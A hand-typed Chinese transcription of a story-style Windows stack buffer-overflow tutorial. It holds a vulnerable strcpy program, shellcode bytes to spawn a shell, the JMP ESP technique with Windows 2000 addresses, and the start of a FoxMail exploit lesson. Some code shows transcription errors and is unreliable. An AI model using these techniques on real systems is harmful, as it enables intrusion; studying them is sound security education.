# 缓冲区溢出教程

# 写在前面

# 写在前面

首先，我要声明，我打的这篇文档，原稿是《黑手缓冲区溢出教程》，而不是作者出的正版书，在这里向王炜老大道歉！！因为我兜里的那个实在是那什么，外加上我们烟台这里买不到……不找什么借口了，我会补一个正版书的，同时也希望所有在读《黑手缓冲区溢出教程》或者这个文档的朋友能买上正版书，以表示对原作者的尊重！

言归正传吧，本来这个寒假打算的是再温习一下汇编的，可临近放假时，让我得到了《黑手缓冲区溢出教程》这个电子书，不由得心动！临时改了主意……

其实我学习缓冲区溢出了很久了（大概三年了），可是总觉得自己学的东西很零碎，不是那么的系统，甚至我都不知道，我都学了些什么！于是我便想利用这个寒假，认真、系统的学习一下缓冲区溢出。

由于黑手的电子书看起来实在太麻烦！那么多的对话框外加上还要密码！而我的水平又太凹了，真的没有办法将电子书的内容从 EXE 中分离出来，于是我决心将这本书档从头到尾的打出来用 Word 排好版，一来算是为了巩固自己的所学，二来也算是磨练一下自己的毅力，再者就是方便所有想学习这个的朋友，最后，这个文档诞生了！

再由于本文档打字带排版总共用时才不到 5 个星期，而且又完全是手抄，所以错误之处在所

难免，而我又没有太多的时间来排版和纠正文档中的错误，所以我就直接用 DOC 格式共享给大家，大家在阅读的时候，如果发现什么问题就直接修改或重新排版，并将自己的名字填到下面我预留的地方，然后在网上公布，来保证这个文档的不断完善，同样也可以根据签名来辨认哪个文档更完善！

同时也希望大家能尊重一下我的劳动成果，不要象网上的某些人……

俗话说，一年之际在于春，我最后也写一下我新一年中要完成的几个目标，

与大家共同进步：

1 、 在 看雪论坛 上，至少出现两篇我的精华文章！

2 、 写一个能拿得出手的程序！

3 、 将老罗的那本《Win32 汇编程序设计》和《加密与解密》再看一边，并留好笔记！

我的所有进展都会在我的博客上保持更新，希望大家能多来指教！

我的博客地址 : Http://www.cifly.cn/

美丽の破船

写于 2008 年 2 月 21 日星期二

路漫漫其修远兮 吾将上下而求索

吾笨笨且懒散兮 急须改之而奋进！

# 前言

# 前言

作者名称：王炜 方勇

# 作者简介

## 作者简介

王炜：男，1981 年生于川沱小镇泸州。生于酒城但不能喝酒，现是四川大学信息安全专业硕士研究生。

勤奋有余，天赋不足，还好总有良师益友，让我能一步步的前进。本科时，曾代表学校参加国际大学生程序设计竞赛（ACM / ICPC）、全国数学建模竞赛，还有星际争霸比赛，成绩总有些遗憾，不提也罢！现主要从事缓冲区溢出漏洞的研究，在国内各安全专业杂志上发表过多篇缓冲区溢出利用相关文章。现在奋斗的愿望是能去微软亚洲研究院工程院实习，寻找当年 ACM 队的队长。

方勇：博士，四川大学电子信息学院副教授，通信与信息系统专业硕士生导师。主攻研究网络系统与信息安全方向，从事信息系统安全的整体框架的研究。发表多篇信息安全方面论文，主编过国家信息安全核心教程——《信息系统安全》一书。

# 主要角色简介

## 主要角色简介

老师：尽职尽责，不断进取的楷模；授课方式幽默风趣，并经常带动同学们思考讨论；不仅传授学生们技术，更重要的是引导学习的方法；可能是作者理想中的老师形象吧！

宇强、小倩：主角（如果可以这么说的话），宇强的悟性很强，能对已掌握的知识融会贯通，举一反三。小倩是位聪明的 PLMM，也是男主角的心上人。

古风：有非常勤奋的精神和非常好的记忆力；不足之处是太过细节，有时不能抓住概要和重点。

玉波：总是想比较轻松的完成学习和工作，这种态度不可取，但这种发散的思维有时还是有一定用处的！

# 阅读指南

## 阅读指南

本书定位于初学缓冲区溢出利用的读者；并照顾想学习缓冲区溢出技术的朋友。

本书的目的是用幽默的语言和通俗的解释，对 Windows 缓冲区溢出编程的思路和思维进行详细分析；并用大量实例对溢出的实际利用进行一次又一次详尽的讲解。

本书没有枯燥的、大段汇编代码的解释；没有复杂的、Windows 系统结构的定义，阅读起来不会有混混欲睡的乏味感！

书里面，有的是活波生动的语言；有的是的美好纯真的校园生活；有的是可遇不可求的经验；有的是直截了当、图文并茂的手把手操作；有的是引导读者感受程序设计的艺术，并在缓冲区溢出的美妙世界中遨游；有的提示和建议是能引起读者浓厚的兴趣，能够自觉下去再找相关的资料完善自己。

知识就像一个圆；圆的面积是你所知道的东西；圆的边长是你不知道的东西。圆越大，那么边就越长。所以当你知道得越多，那么你不清楚的就更多！

所以，我们都要自觉的学习，不断的勤奋学习，这样才能不落伍，才能与当今纷杂的社会竞争！

缓冲区溢出是安全论坛上最常见的问题，包括堆栈缓冲区的利用思想，ShellCode 的初步编写、变形、高级利用，以及堆溢出的利用，漏洞的亲自分析等。当然，每个部分都有大量的实例，让大家实际操作，学以致用。

后一章都以前一章为基础，逐渐深入并展开。在学习前面的内容时，如果有些地方不了解，可以在后面的章节中找到答案；后面不清晰的地方，也可以翻看前面的知识，以进一步巩固自己！

如果读者能在白忙之中抽出 5 分钟时间来翻看这本书，那么我希望能吸引你再用几个小时的时间来读完这本书。然后用更多的时间，去实际操作书中的每一个例子，进一步的学习，进一步的寻找答案。

“课后解惑”部分，是根据作者学习中遇到的问题和论坛上较常见的提问整理出来的经验之谈。有些可能是翻遍资料都找不到答案的注意事项。

最后，希望阅读这本书没有浪费你宝贵的时间！

# 第一章、Windows 下堆栈溢出入门

# 第一章、Windows 下堆栈溢出入门

# 1.1 梦，已经展开

## 1.1 梦，已经展开

大学生活开始了，一切都是那么美好、宁静。精神矍铄的长须学者，行色匆匆的赶路人，明星熠熠的荷潭月影，甜蜜的对对恋人，似乎是大学校园里永恒的画面。

在某个教室里，正在上一门特殊的课——网络攻防。说它特殊，其实只是对外人而言，因为在他们看来，这门课显得有些神秘与高深。

让我们一起推开教室的门，感悟一下他们的学习和讨论氛围吧。嘘！小声点！

让我们的梦想在这里实现吧……

# 1.2 啤酒和杯子――缓冲区溢出原理

## 1.2 啤酒和杯子――缓冲区溢出原理

第一节课，各位同学都规规矩矩的坐在位置上，看着老师，大气也不敢出。

老师带着眼镜，一副精干的样子，看出了大家紧张的神情，于是说道：“大家这么紧张干嘛是怕这门课的技术还是怕这门课的老师――我啊我很好说话的，都是年轻人嘛；而技术，就比我更好啦――它是不会说话的。”

“呵呵！是呀！是呀！”大家听了老师的独白都笑了，气氛一下活跃了不少。

老师停了一下，问道：“同学们，这门课叫‘网络攻防’，那你们知道网络上的攻击手段哪些么”

大家听了，马上七嘴八舌的应到：“一些安全杂志上有介绍，好像有注入、缓冲区溢出、劫持、嗅探……”

“哈哈，对！”老师满意的说道，“大家说得很好！攻防是个全方位的问题，涉及到诸多技术，但我们课时有限，第一学期只能讲几个有限的部分。现在最流行的有攻击手段两种方式，一种是 SQL 注入，另一种就是缓冲区溢出攻击。我们选一个作为首先讨论的主题吧！”

“好啊，好啊！”

“不过讲什么呢好像都挺有意思的。”一位女生说道。

“不知道，投硬币吧！”一个胖乎乎的同学说。

老师眼镜一亮，说：“对，真是个好办法！”

老师摸出一个硬币，拈在手中说：“如果是正面就先讲缓冲区溢出，反面就先讲 SQL 注入。”语音刚落，硬币就在空中划出一道美妙的弧线，落在地上转了几圈后停了下来。

前排的几个同学壮着胆子围上去看，叫道：“是正面也！”

“好！那就先讲缓冲区溢出！注入留在以后讲！”老师说道。

“不过似乎很难也……”一个瘦瘦的但很精神的同学说。 “不用怕！大家只要有信心、有毅力，就一定能战胜，Follow me！”

“好，首先让我们来认识一下缓冲区以及缓冲区溢出吧！”老师说。

“先作下类比，如果某个人把一瓶啤酒全部倒入一个小杯子中，那装不下的啤酒就会四处冒出，流到桌子上，这个大家都清楚吧！”

“是啊！是啊！”男生们都遗憾的说到，“那好浪费啊！”

那个胖胖的同学说：“这么好的天，啤酒、小菜，再加上超爆 DVD 大片，好舒服啊！”

“就是啊，谁这么做的拖出来打一顿！”大家的情绪被带动起来了。

“安静！安静！”老师好不容易把持序维护下来，然后兴致索然的说，“我只是打个比方而已！你们什么都能联想到吃。那位同学，你叫什么名字呢”

那位胖胖的同学老实的答道：“我叫玉波。”玉波果然像名字一样，长的白白胖胖的，一张圆乎乎的脸，挺可爱的样子。

“不过我很理解你们，食堂的饭菜是太难吃了。”老师挺同情的说道，“大学食堂就是伤心太平洋啊！”

“哈哈哈哈……”同学们都乐了，教室里充满了愉快的笑声。

等大家平稳下来后，老师继续说道：“同样的道理，在计算机内部，输入数据通常被存放在一个临时空间内，这个临时存放空间就被称为缓冲区，缓冲区的长度事先已经被程序或者操作系统定义好了。缓冲区就很像那个啤酒杯，用来装东西，而且大小固定。”

“向缓冲区内填充数据，如果数据的长度很长（如同那瓶啤酒），超过了缓冲区（那个啤酒杯）本身的容量，那么结果就如同啤酒一样，四处溢出，数据也会溢出存储空间！装不下的啤酒会流到桌子上，而装不下的数据则会覆盖在合法数据上，这就是缓冲区和缓冲区溢出的道理。”

“当然在理想的情况下，程序检查每个数据的长度，并且不允许超过缓冲区的长度大小，就像在倒啤酒的时候，啤酒要冒出杯子时我们就停止。但有些程序会假设数据长度总是与所分配的存储空间相匹配，而不作检查，从而为缓冲区溢出埋下隐患。”

“OK，那我们如何利用缓冲区溢出呢在一般情况下，就像啤酒会到处流满桌面一样，溢出的数据会覆盖掉任何数据、指针或内容。除了破坏之外，对攻击者来说没有任何好处。但我们可引导溢出的数据，使计算机执行我们想要的命令。这就是很多漏洞公告上说的：‘黑客可以用精心构造的数据……’。道理就是这样。”

“如果初学，还不熟悉这个概念，可先把缓存区溢出利用理解为允许攻击者往某个程序变量中放一个比期望长度要长的值，由此以当前运行该程序的用户的特权执行任意命令。”

“而具体的利用和方法，就是如何精心构造。”老师最后说道。

# 1.3 神秘的 Windows 系统

## 1.3 神秘的 Windows 系统

“大家都听明白了吗”老师问大家。

“呜啦！”同学们高高兴兴的说，“明白什么是缓冲区溢出了！就是啤酒和杯子嘛！那我们就开始学习注入了吧，老师！”

“晕哦！这只是最基本的缓冲区溢出原理，要想掌握利用还早着呢！都坐下！” 老师又好气又好笑的说。

待大家又安静下来后，老师说：“学缓冲区溢出要有信心，但也不能浮躁，知道缓冲区的系统结构吗知道怎么执行我们想要的程序吗嗯”

大家摇摇头：“不知道。”

“好，既然不知道，那就安安静静的坐好，马上就是最关键的地方了。”

同学们问道：“什么关键的地方呢”

“就是 Windows 系统内部处理缓冲区的机制，我们明白了这个之后，就可利用缓冲区溢出漏洞来控制别人的主机。”

“哇，好哦！”教室里一阵欢呼。

“为了讲清楚 Windows 是如何处理缓冲区的，我们先看一段很简单的程序。考虑到大家的初学基础，我会尽量少提复杂的代码，多作感性的讲解。”

“是啊，一看复杂的代码就头大，这样好啊！”又一阵欢呼。

“对，我的目的就是让你们知道那些复杂代码是如何来的，而理解了下面这个很简单的程序，再看其他的那些程序时，会发现思路基本上都是一样的。”

“嗯！好！那快给我们看看那段程序吧！”大家都迫不及待了。

“大家的热情都很高嘛，好的！”

# 1.3.1 溢出例子――报错对话框

### 1.3.1 溢出例子――报错对话框

“这个很简单的程序是这样的。”老师在墙上做出投影。

```
/*很简单的程序：*/
#include<stdio.h>
#include<string.h>
char name[] = “ww0830”;pu 
int main()
{
    char output[8];
    strcpy(output, name);
    for(int i=0;i<8&&output[i];i++) 
    printf("\\0x%x",output[i]);
    return 0;
}
```

“这个程序，还比较简单吧？”老师小心翼翼的问台下的同学。

台下一阵默然，同学们都在头晕中呢……

“好，我来解释一下！这是用 C 语言写的程序！”老师说。

台下一阵狂晕：“地球人都知道！”

“不要急，我一句一句的来。首先， #include<stdio.h> 和 #include<string.h> 是包含这两个头文件进来，因为后面使用的 strcpy 函数和 printf 函数是这两个头文件中定义的。”

“嗯，这个清楚了。”

“然后， char name[] = “ww0830”; 是把‘name’这个数组赋值，往里面放入‘ww0830’这几个字符。”

“哦，为什么要放入‘ww0830’而不放其他的呢？”大家疑惑不解。

“因为这是我的名字啦，哈哈！这个并不重要，什么都可以放，后面大家就会看到的。然后是 int main(){ …… } ，这个是重点啦，这就是我们常说的主函数！程序进来就是先找到这个地方，执行里面的语句。”

“接下来的 char output[8]; strcpy(output, name); 就是让系统给 output 变量分配 8 个 char 的空间，然后把‘name’里面装的字符拷贝给它。”

“ strcpy（des，source） 这个拷贝函数是把第二个参数 source 的值拷给第一个参数 des。它不检查拷贝的长度，它会一直拷贝，直到 source 到结尾。这就是它的弱点了！”

“下面的 for(int i=0;i<8&&output[i];i++) printf("\0x%x",output[i]); 只是让大家方便检查 output 里面的值而已，我把它以 16 进制的形式打出来。”

台下听得聚精会神，一片安静。

“好，让我们运行一下，看看结果吧！在 VC 中编译、链接、执行，如图 1－1。”


“看，打出来的是 \0x77\0x77\0x30\0x38\0x33\0x30 ，77 就是‘w’的 16 进制表示，而 30、38、33、30 就是‘0830’的 16 进制表示。程序运行后一切正常，把‘ww0830’的 16 进制打出后，安全退出了。”

“嗯，呼……”台下长出了一口气，连几个女生也说道，“对，明白了，明白了。”

“呵呵，大家明白了就好。刚才大家不是问为什么要输入‘ww0830’吗，好！那我稍微改一下，改成其他的。”

“这次我把‘name[]’的值赋成‘abcdefgh’，大家再看看运行的结果有什么问题没有！如图 1－2。”


台下的同学使劲的看啊看，什么都没看出来，最后玉波小心翼翼的问：“只是把‘abcdefgh’的十六进制 61、62、63 等打出来嘛，有什么问题吗？”

老师瞟了一眼，然后说道：“对！其实就是没有问题！”

台下狂倒……

“不是啊，不是啊”老师忙解释，“目的是让大家清楚的看下面真正的玄机。”

“这次我把‘name’再改长点，改成‘abcdefghijklmnopqrstuvwxyz’再运行，如图 1－3。”


“哦哦哦……不得了了，出错了！”台下一阵恐慌。

“哈哈！不要急。”老师摆出一副天塌下来自己顶的模样。“大家来仔细看看这个出错的警告是什么。”

“是 0x706f6e6d 引用的 0x706f6e6d 内存，该内存不能为 read。”玉波喃喃的念道。

“你们不觉得‘6d6e6f70’这些很熟悉吗？我们的第二个程序中打出的……”老师提示道。

“哦！‘abcd’是‘61626364’，那么‘6d6e6f70’就应该是 mnop 了。”那位瘦瘦的同学一阵埋头苦算后说道！

“Good，这位同学能不能给大家介绍一下自己呢？”

那位瘦瘦的同学说道，“我叫古风。”

从古风灰灰的衣服、黑黑的脸上能看出他是从农村来的。他的眼神里带着中华民族勤奋刻苦的优良传统。

“大家都要向古风同学习啊！”老师说道，“我给一个对应转换表吧，以后大家直接查就可以了。”老师打出表 1 所示的表格：


(黑手教程中的这个表格有问题，所以我自己做了一个贴了出来，并不是原先的那个表格)

# 1.3.2 堆栈和溢出

### 1.3.2 堆栈和溢出

“现在大家清楚了，刚才的程序是输入到 mnop 时出错了，那究竟是什么原因呢？在‘name[]’比较短时不会有问题，反而在比较长的时候出错。”

大家眉头紧缩：“不知道。”

老师说：“嗯，这个就涉及到 Windows 的运行机制了。”

“哇！岂不是很难啊！”

“No，只要理解了两个概念，再结合实际分析一下，就很简单了。我会用很简单的语言给大家解释。”

“第一个概念是 中断 。我举一个日常生活中的例子来说明，假如你正在给朋友写信，电话铃响了。这时，你放下手中的笔去接电话。通话完毕，再继续写信。这个例子就表现了中断及其处理过程：电话铃声使你暂时中止当前的工作，而去处理更为急需处理的事情（接电话），把急需处理的事情处理完毕之后，再回头来继续原来的事情。”

“第二个概念是 堆栈 。计算机为了能回头继续处理原来的事情，就需要把原来指令的指针 EIP 保存在堆栈中；当要回去原来的地方时，就把保存在堆栈中的 EIP 恢复即可。并且各个函数的局部变量的分配也是在堆栈中。”

台下似懂非懂。

“好，我们看看刚才那个程序就清楚了。”

小知识——PUSH 和 POP

堆栈是一数据结构，遵循“先进后出，后进先出”的规则，就像我们平时叠盘子一样，先放在下面的最后才能取出来，最后放上去的最先取出来。而在操作系统中，存和取的动作就是 PUSH 和 POP。PUSH 放一个数据到堆栈中去，POP 取一个堆栈中的数据出来。

# 1.3.3 溢出报错的原因分析

### 1.3.3 溢出报错的原因分析

“第一次我们输入的只是‘abcdefgh’。因为要进入 main 函数，所以系统把之前的 EIP 和 EBP 保存在堆栈中，便于以后恢复；然后为‘output[8]’在堆栈中分配 8 个 char，拷贝‘abcdefgh’到其中。要注意的是，Windows 下堆栈的分配是高址往低址分配的，其结构如图 1－4。”


“这样在执行完 main 函数后，只要把保存在堆栈中的 EBP、EIP 恢复回去，就可继续原来的执行过程而没有任何问题。”

同学们点点头：“大概明白了，呵呵！”

“好，那第二次输入‘abcdefghijklmnopqrstuvwxyz’时，output 分配的还是 8 个字节，但却拷了 26 个字母进来，和前面比较，其结果如图 1－5 所示。”


“大家注意了！由于拷贝的字母过长，不仅把分配给 output 的 8 个字节占据完了，而且还继续往下，把保存的 EBP 和 EIP 给占据了。”

“当执行完 main 函数后，系统要恢复 EBP、EIP，而 EIP 已经被我们覆盖成 ponm（即 6d6e6f70）了。但系统不知道，就会去执行‘6d6e6f70’位置的东东。而那个位置是不可读的，所以就会出错。”

“乌拉！就是啊！”台下一片欢腾。

“呵呵，现在大家想想，我们可通过覆盖 EIP 为任意值来让程序运行到一个错误的地方，那如果我们特意把 EIP 覆盖成我们想去的程序的地方，那会怎么样呢？”

“我想，应该会运行我们‘想要的程序’吧！”一位浓眉大眼的同学说道，他叫宇强。

“很好！”老师以赞许的目光看了一眼宇强，“就是这样的。我们来看看‘想要的程序’的编写吧！”

# 1.4 ShellCode 编写简介

## 1.4 ShellCode 编写简介

“一般来说，我们把‘想要的程序’称为 ShellCode。Shell 最先指人机交互界面，而这里的 ShellCode 不仅仅指交互了，还可以是实现任意功能的代码。”

“ShellCode 的编写很深奥，涉及很多方面，在以后的课程中我们会作详细讨论，这里就不多说了。只给个例子。”

“我们‘想要的程序’功能最好是能够开一个 DOS 窗口，那我们就可以做很多事情，比如下面这个程序。”

```
#include<windows.h>
int main()
{
    LoadLibrary(“msvcrt.dll”);
    system(“command.com”);
    return 0;
}
```

“大家看！执行一个 command.com 就可获得一个 DOS 窗口，在 C 库函数里面，语句 system(“command.com”); 将完成我们需要的功能。”

小知识：

Windows 不像 Unix 那样使用系统调用来实现关键函数。Windows 通过动态链接库来提供系统函数，就是所谓的 Dll。

“system 函数由 msvcrt.dll（the Microsoft Visual C++ Runtime library）提供，所以要想执行 system，必须首先使用 LoadLibrary(“msvcrt.dll”); 装载动态链接库 msvcrt.dll，之后才能调用 system 函数。”

“OK，我们执行，看看效果吧！弹出一个 DOS 对话框！如图 1－6，可以执行 dir、copy 等命令。”


“乌拉，太神奇了！”大家一片欢腾，都觉得不可思议。

“呵呵，现在我们把程序改为机器码，可能你们过去也看到过，别人的程序中有很多诸如 \x01\xff\x3f\xff 一类的东东，那些就是程序的机器码。也把我们的程序变成机器码吧！”

“可是怎么变呢？”几位女生有些疑惑。

“很简单！”老师说道，“在 VC 中按 F10 调试，然后在 Debug 工具栏中点击最后一个按钮‘Disassemble’，这样就出现了源程序的汇编代码；再在代码窗口上点击鼠标右键，在弹出菜单中选择‘Code Bytes’，这样就出现了机器码，如图 1－7！”


“哦，那我们把它抄下来就可以了？”古风高兴的说道，埋头就要写。

“不！”老师阻止到，“其实还要作相关的一些工作之后才能直接抄取机器码，ShellCode 的编写将在后面的课程中讲到。”

“哦！”古风耸耸肩，遗憾的说道，“我不怕辛苦，不怕做累人的活。”

“呵呵，以后有机会的，大家先这么认为 ShellCode 是这样生成的吧，我直接给大家一个开 DOS 窗口的机器码。”老师在影屏上打出来。

```
char ShellCode[] = 
{
    0x8B,0xE5, 0x55,0x8B,0xEC,0x83,0xEC,0x0C,0xB8,
    0x63,0x6F,0x6D,0x6D,0x6D,0x6D,0x6F,0x63,0x89,
    0x45,0xF4,0xB8,0x61,0x6E,0x64,0x2E,0x89,0x45,
    0xF8,0xB8,0x63,0x6F,0x6D,0x22,0x89,0x45,0xFC,
    0x33,0xD2, 0x88,0x55,0xFF, 0x8D,0x45,0xF4, 
    0x50, 0xB8,0x24,0x98,0x01,0x78, 0xFF,0xD0 
};
```

老师说：“接下来，我们把这些背景知识连起来，写一个真正的利用程序！”

# 1.5 窥豹一斑――本地缓冲区溢出简单利用

## 1.5 窥豹一斑――本地缓冲区溢出简单利用

“首先，我们分析一下现在拥有的资源。”

“1.我们知道了‘有问题程序’返回点的精确位置，意思就是我们可把它覆盖成任意地址，让计算机执行那个地址的代码。”

“2.我们有了 ShellCode（一个可以提供 DOS 窗口的代码）。”

“3.那接下来，大家想想，我们应该做什么呢？”

“嗯……”同学们陷入了沉思。

宇强紧锁眉头，突然灵感一亮，说道：“莫非把‘有问题程序’的返回点地址覆盖成我们 ShellCode 的地址？”

“Very Good！这三步就是缓冲区溢出攻击的基本原理和精髓！”

# 1.5.1 ShellCode 的定位

### 1.5.1 ShellCode 的定位

老师说：“现在我们有了前两步，返回点定位和 ShellCode 的编写，现在只需完成第三步——把返回点覆盖成 ShellCode 的地址，就可成功利用缓冲区溢出了！”

“哈哈，太好了！”玉波的口水都要流出来啦……

“现在的问题就是：ShellCode 所在地址是多少呢？即我们把返回地址覆盖成多少？”

“呜……好像不好办啊……”

“嗯，在以前很多朋友提出了不少方法来定位 ShellCode，但都不精确。随着技术的发展，1999 年 dark spyrit AKA Barnaby Jack 提出了一个天才的想法：用系统核心 dll 里的指令来完成跳转！这一技巧开创了一个崭新的 Windows 缓冲区溢出思路！”

小知识：

过去（尤其是在 Unix 下），提出过的覆盖方法主要有两种：

1.NNNNNNNNNSSSSSSSSSSSRRRRRRRRRRRRRR 型。适合于大缓冲区，“N”代表空指令，也就是 0x90，在实际运行中，程序将什么也不做，而是一直延着这些 NOPS 运行下去，直到遇到不是 NOPS 的指令再执行之；“S”代表 ShellCode；“R”代表覆盖的返回地址，思路是把返回地址 R 覆盖为 nops 的大概位置，这样就会跳到 Nop 中，然后继续执行，直到我们的 ShellCode 中。但这种方法由于定位不准确，所以使用起来也不准确。

2.RRRRRRRRRRNNNNNNNNNNNSSSSSSSSSS 型。是用大量的“R”填满整个缓冲区，然后大量的 Nop，最后是 ShellCode。这里，“R”往后跳到 Nop 中，再顺着往下执行就会到 ShellCode 中。但在 Windows 下，“R”中必定会含有 0，这样，整个构造就会被截断，只能用于 Unix 中。

Windows 的系统核心 dll 包括 kernel32.dll、user32.dll、gdi32.dll。这些 dll 一直位于内存中，而且对应于固定的版本，Windows 加载的位置是固定的。

老师继续说：“我们来看看在 Windows 下如何利用系统核心 dll 里的指令来完成跳转吧。我们用系统核心 dll 中的 jmp esp 地址来覆盖返回地址，而把 ShellCode 紧跟在后面，这样就可跳转到我们的 ShellCode 中。其利用格式是 NNNNNNRSSSSSS，N＝Nop， S＝ShellCode， R＝jmp esp 的地址 ”

同学们急了：“等一下，为什么用 JMP ESP 的地址覆盖就可以跳到后面的 ShellCode 中呢？”

“这里是关键的地方，理解了这个就理解了整个缓冲区溢出攻击！下面是详细的讲解，大家注意跟上。你们看，覆盖后的缓冲区如图 1－8 所示：‘N’表示 NOP，存原 EIP 的地方覆盖成了 JMP ESP 的地址，接下去的‘S0’、‘S1’等表示 ShellCode 开始的 0 字节、1 字节等。”


“嗯，这个没有问题。”

老师说：“函数执行完毕，要返回时堆栈指针 ESP 会指向保存原 EIP 的地方，而指令指针 EIP 指向 Ret 指令。如图 1-9。”


“Ret？Ret 是什么？”有人问道。

“Ret 相当于 Pop EIP ，就是把栈顶指针 ESP 指向的值弹出来给 EIP。所以在正常情况下，Ret 执行后，就可把原来的 EIP 恢复，从而回到中断前的流程。”

“哦！”

“但是，保存的 EIP 已经被我们覆盖成 JMP ESP 指令的地址了。这样执行 Pop EIP 后，EIP 会被改为 JMP ESP 的地址，即指向 JMP ESP。而堆栈指针 ESP 往下移一位，指向 ShellCode 的第一个字节（即图 1-9 中的‘S0’）了。如图 1-10。”


“计算机不知道我们做了手脚，继续往下执行 EIP 指向的指令——JMP ESP，而 ESP 指向的是‘S0’，这样就 JMP 到了‘S0’中，开始执行我们的 ShellCode 了！如下图 1-11。”


小知识：

EIP 指令指针指向下一条要执行的命令，一般会自动加 1。ESP 堆栈顶指针指向堆栈的顶部。在 PUSH 时，ESP 往上走，减 1；在 POP 时，ESP 往下走，加 1。

“哦！有点感觉了，但还不是非常清楚。”

“我再用具体的数字重复一下这个过程吧！”老师耐心的讲解道，“‘FF E4’是 JMP ESP 的机器码，而在 Windows 2000 SP2 下，地址 0x77e0492b 里正好就是‘FF E4’。所以我们用 0x77e0492b（即 JMP ESP 指令的地址）来覆盖保存的 EIP，如图 1-12。”


“当程序返回时，执行 Ret＝POP EIP ，EIP 就变成 0x77e0492b 了，而 ESP 往下走，指向 ShellCode 的第一个字节中，如图 1-13。”


“系统不知道我们做了手脚，继续执行。执行 EIP 指向的指令，就是‘FF E4’，即 JMP ESP。而此时的 ESP 指向后面 ShellCode 的第一个字节，执行‘FF E4’（即 JMP ESP）就正好进入到我们的 ShellCode 中啦！”老师万般耐心的说道，生怕大家有一点不懂。

“下来大家再仔细想想，多看看上面的图和讲解。我们先实际感受一下。”

# 1.5.2 成功构造利用

### 1.5.2 成功构造利用

老师说：“这里 JMP ESP 的地址，会由于版本的不同而不一样。比如在 Win2000 的 User32.dll 中，JMP ESP 指令的地址分别为：sp0:0x77e2e32a、sp1:0x77e8898b、sp2:0x77e0492b、sp3:0x77e188a7、sp4:0x77e22c75。以前很多攻击利用程序需要带上对方版本的参数，就是这个原因。”

“哦！”

“但随着技术的发展，大家又发现了可以通用的地址。这样，攻击程序的统一化和简单化就有了很大提高。从这里可以看出，技术是不断发展进步的，如果自己有什么发现，一定要公布出来，促进大家讨论，反过来也促进自己提高，否则技术会很快过时的。”

大家都点点头。

“好了，我们把它们综合起来吧！还是对于那个程序，我们把它覆盖成这个样子。”如图 1-14。


“把代码合起来，就如图 1-15 所示。”


“接下来，我们在程序中把‘name’赋成这样的值。它看起来很奇怪，但会得到很奇妙的结果。我们执行，就会弹出想要的 DOS 对话框了！”

“大家看，写 main 函数的程序员，他只会去负责读‘name’并赋给 output 数组，根本不会感觉到‘name’数组中会隐藏这样精心构造的恶意代码；对于任何的‘name’，他都会把它读入并作为正常的东西处理，但会出现想不到的结果，呵呵！如图 1-16。”


“这样，我们就完成了首个缓冲区溢出攻击的编写了。感觉怎么样？有收获没有？”

同学们答道：“有！不错不错！”

“有收获就好！下节课我们将进入 Windows 漏洞的缓冲区溢出利用编写了。OK，今天就到这里，放学！”

# 1.6 小结——摘自小强的日记

## 1.6 小结——摘自小强的日记

9 月 16 日 阴

军训完后，大学正式生活已开始一星期了，自己也从最初的新鲜逐渐走向了适应。

学校很大，还有几个分校区，和同学转了几天后才基本熟悉本部的情况。寝室在学校中心，周围是几个食堂。食堂和教学楼之间有一个篮球场，篮球场旁边有一排乒乓桌，永远都排满了人在打球。图书馆则比较远，要越过篮球场，路过一个足球场，并走过一个绿化很好的草坪，直到校门口的边上才到。

我平时住寝室，周末才回家。大一的课比较多，基本上排满了，每门课我都认真听，但内容基本都很无聊，有的老师全按书本上的知识讲，一点儿也不和社会知识接轨，有的老师经常出差。有些同学上课讲话、睡觉，老师也不说什么，只顾讲自己的。

但有一门‘网络攻防’的课还比较有意思，那个老师好像姓王。王老师不看讲义，思维活跃，随时都能调动我们思考。他居然用投硬币来决定讲缓冲区溢出编程，呵呵！真是有意思。

上次课，王老师讲了缓冲区溢出编程的基本原理和步骤，我觉得还是比较清楚，而且他还对一个有漏洞的程序通过精心构造数据、改变程序流程，弹出了一个 DOS 窗口。回家后在自己的机器上照着做了一遍，成功了！我的兴趣一下被提起来了，希望再看看实际中的利用。王老师说下次课将进入实际漏洞的编写，自己很兴奋，盼着下次课早点到来。

在那次课上，知道了一位同学叫玉波，白白胖胖的，跟食神一样；还有一位叫古风，很勤奋的人。还看到了一位穿着绿色薄毛衣的 PLMM，留着短发，很清秀的脸。她坐我前面不远的地方，我看了她几次，她一直在认真听课，真是一个美丽又勤奋的女孩。

给偶遇的女孩

五百年前的回眸，

换来今世的擦肩而过；

你在世界的这头，我在世界的那头，

遥遥相望。

一闭眼，全是你的模样。

想像着你，在操场上，在课桌前，在寝室里。

一样活泼，

一样漂亮。

蒹葭苍苍，白露为霜，

所谓伊人，在水一方。

下次课时，再和她相见吧！

# 1.7 首次实战――FoxMail 溢出漏洞编写

## 1.7 首次实战――FoxMail 溢出漏洞编写

“早晨起床，铃儿响啊，叮叮当当上学堂”。老师一边哼着歌，一边迈进教室。

“哇！”老师大叫一声。原来看见更多的同学坐得整整齐齐，老师吓了一跳，“我还以为走错了教室呢！”

大家都笑了。宇强看见 PLMM 这次穿了件淡黄的外套，坐在他左边的第四个位子。

“老师，上次讲了缓冲区溢出后，大家下来都对其产生了浓厚的兴趣，也希望能继续学习实际缓冲区溢出漏洞的编写。”古风认真的说道。

“哦，是这样啊，没问题，真正的黑客精神就是交流和共享！有更多的人参与，就会激发出更多的思想，大家也就会一起进步。”

“有一点我要再三强调，就是有什么技术发现，一定要公布出来，别人可以在此基础上有更好的发现，自己也可获得很大的收益；而如果只是自己用，技术本身会很快过时。大家记住了吗？”

“记住了！”教室里齐声答道。

“好，从现在起，我们就进入真正的 Windows 平台下缓冲区溢出漏洞的编写！”

“好哦！”一阵欢呼！

“我们从易至难进行，首次实战对象就是 FoxMail 的漏洞！”老师说道。

小知识：

FoxMail 是国内著名的 Internet 电子邮件客户端软件。可以到其主页 www.FoxMail.com.cn 获得最新的信息。

“哇！第一个就选这么难的啊？我们能行嘛？”一些同学说道。

“呵呵，其实有了上堂课的知识，要利用该漏洞实在是小菜一碟。”老师轻松的说道。

“哦！是不是哦……”大家都有些担心。

“绝对没问题！Follow me！首先让我们看看漏洞公告吧！”

# 1.7.1 漏洞公告的分析

### 1.7.1 漏洞公告的分析

“大家拿到任何一篇漏洞公告后，首先要注意是什么程序、它的什么版本有漏洞。从图 1-17 可以看出，有问题的的版本是 FoxMail5.0 beta1、FoxMail5.0 beta2 和 FoxMail5.0，那我们就安装上相应的版本，写出对它的溢出攻击程序。这里我用的是 Win2000 SP2+FoxMail5.0 beta1。”


